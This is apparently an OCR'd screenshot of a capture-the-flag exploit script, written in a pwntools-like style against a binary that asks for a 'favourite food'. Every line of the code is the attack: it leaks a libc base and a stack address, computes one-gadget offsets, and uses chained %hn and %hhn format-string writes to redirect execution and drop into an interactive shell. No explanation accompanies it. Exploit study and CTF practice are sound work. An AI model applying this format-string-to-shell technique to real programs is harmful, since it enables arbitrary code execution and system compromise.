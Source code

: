 ```
libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240

leak('libc_base:',libc_base)

ogs=[0x4527a,0xf03a4,0xf1247]

og=libc_base+ogs[2]

leak('og ',og)

leak('(og>>16)&0xff',((og>>16)&0xff))

#leak('og')

  

ru("0x")

stack=int(r(12),16)

stack1=stack-224

leak('stack1 ',stack1)

leak('stack1&0xffff ',stack1&0xffff)

leak('(stack1+2)&0xffff',(stack1+2)&0xffff)

i_addr=stack-(256)+0xc

leak('i_addr',i_addr)

  

sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str(6)+'c%37$hhn')

  

sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')

  

sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')

# gdb.attach(p)

itr()
```
